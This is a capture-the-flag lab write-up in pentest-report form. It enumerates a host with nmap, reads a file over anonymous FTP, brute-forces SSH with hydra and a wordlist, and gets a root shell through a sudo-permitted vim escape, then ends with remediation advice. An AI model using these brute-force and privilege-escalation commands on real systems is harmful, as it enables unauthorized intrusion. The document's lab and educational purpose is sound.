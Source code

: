 # Simple CTF

## Table of contents

- Executive summary
- Description of the attack
- **Conclusion and suggested remediation:**

## 1. Executive summary

The test was performed on a single host with 3 vulnerable services exposed: 

- `ftp` with anonymous login with access to confidential data
- `http` running a vulnerable version of `Simple CMS`
- `ssh` with a poor password

Both HTTP and SSH contain sufficient attack surface to compromise the host, thus remediation must contain a strict and thorough analysis and implementation of more secure practices

## 2. Description of the attack

### 2.1 Network enumeration

Using `nmap` I’ve discovered that the target runs the following:

```bash
nmap -oN host_scan.txt 10.10.136.81 

Starting Nmap 7.60 ( https://nmap.org ) at 2023-09-23 18:42 BST
Nmap scan report for ip-10-10-136-81.eu-west-1.compute.internal (10.10.136.81)
Host is up (0.00099s latency).
Not shown: 997 filtered ports
PORT     STATE SERVICE
21/tcp   open  ftp
80/tcp   open  http
2222/tcp open  EtherNetIP-1
MAC Address: 02:32:DE:2A:8F:0F (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 10.71 seconds
```

Which immediately provides results for the following flags

![flags1](images/flags1.png)

> The third flag: **What's the CVE you're using against the application?** is a bit misleading, as user may be tempted to run nmap with `-A` flag. This will reveal that the `ssh` server contains **CVE:** [2016-6210](https://nvd.nist.gov/vuln/detail/CVE-2016-6210) OpenSSH 7.2p2 - Username Enumeration ****vulnerability. **However, that’s not the right answer.** The right answer is **CVE-2019-9053,** but the exploit written for this CMS is in `python 2`and actually running the exploit is a dreadful process. So I’ve just skipped the flags as there aren’t more hosts or a DB to compromise.
> 

### 2.2 FTP exploitation

The nmap also shows us, that the target runs FTP. So I tried to see if it enables anonymous logins.

```bash
ftp 10.10.136.81
Connected to 10.10.136.81.
220 (vsFTPd 3.0.3)
Name (10.10.136.81:root): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -l
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Aug 17  2019 pub
226 Directory send OK.
ftp> cd pub
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp           166 Aug 17  2019 ForMitch.txt
226 Directory send OK.
ftp> get ForMitch.txt
local: ForMitch.txt remote: ForMitch.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for ForMitch.txt (166 bytes).
226 Transfer complete.
166 bytes received in 0.00 secs (319.1129 kB/s)
ftp> exit
221 Goodbye.
```

So I decided to cat the contents of ForMitch.txt

```bash
cat ForMitch.txt 
Dammit man... you'te the worst dev i've seen. You set the same pass for the system user, and the password is so weak... i cracked it in seconds. Gosh... what a mess!
```

### 2.3 SSH Exploitation

And that led me to a logical conclusion that we could try to hack into the machine using `mitch` as username

```bash

hydra -l mitch -P Tools/wordlists/rockyou.txt 10.10.136.81 -s 2222  ssh -t 4
Hydra v9.6dev (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-09-23 19:04:16
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344398 login tries (l:1/p:14344398), ~3586100 tries per task
[DATA] attacking ssh://10.10.136.81:2222/
[2222][ssh] host: 10.10.136.81   login: mitch   password: secret
[STATUS] 14344398.00 tries/min, 14344398 tries in 00:01h, 1 to do in 00:01h, 1 active
```

And so we get answers to the following:

![flags2](images/flags2.png)

```bash
mitch@Machine:~$ cat user.txt 
G00d j0b, keep up!
```

![flags3](images/flags3.png)

### 2**.4 Privilege Escalation:**

While **`mitch`** didn't have permission to execute **`/bin/su`** as root, the **`sudo -l`** command revealed that **`mitch`** could execute **`/usr/bin/vim`** without a password. Using GTFObins (a repository of Unix binaries that can be exploited by an attacker to bypass local security restrictions), it was determined that vim can be exploited to gain a root shell.

Executing **`sudo vim -c ':!/bin/sh'`** provided a root shell, allowing access to the **`root.txt`** file with another congratulatory message.

```bash
mitch@Machine:~$ sudo su
[sudo] password for mitch: <secret>
Sorry, user mitch is not allowed to execute '/bin/su' as root on Machine.
mitch@Machine:~$ sudo -l
User mitch may run the following commands on Machine:
(root) NOPASSWD: /usr/bin/vim
mitch@Machine:~$
```

So now’s the time to see how to exploit this. A quick google search will lead us to **GTFObins**

![vim](images/priviledge-exploit-vim.png)

```bash
$ sudo vim -c ':!/bin/sh'

# ls -l /root
total 4
-rw-r--r-- 1 root root 24 aug 17  2019 root.txt
# cat /root/root.txt	
W3ll d0n3. You made it!
```

![flags4](images/flags4.png)

### 3**. Conclusion and suggested remediation:**

The target machine had multiple vulnerabilities ranging from weak passwords to misconfigured permissions, leading to full system compromise. It's crucial for the administrators of such machines to ensure strong password policies, restrict anonymous FTP access, and ensure careful configuration of sudo permissions.

1. Disable anonymous FTP login or ensure only necessary files are present in the FTP directory.
2. Swap password-based access to the machine via SSH to a public key authentication
3. Regularly review and audit sudo permissions for users. Avoid giving NOPASSWD access unless strictly necessary.
4. Update `Simple CMS` or switch to other CMS to mitigate known vulnerabilities in this CMS. 
5. Escalate the conflict between the author of the file `ForMitch.txt` to **HR** and make sure to educate your users on the importance of not leaving personal notes in publicly accessible places.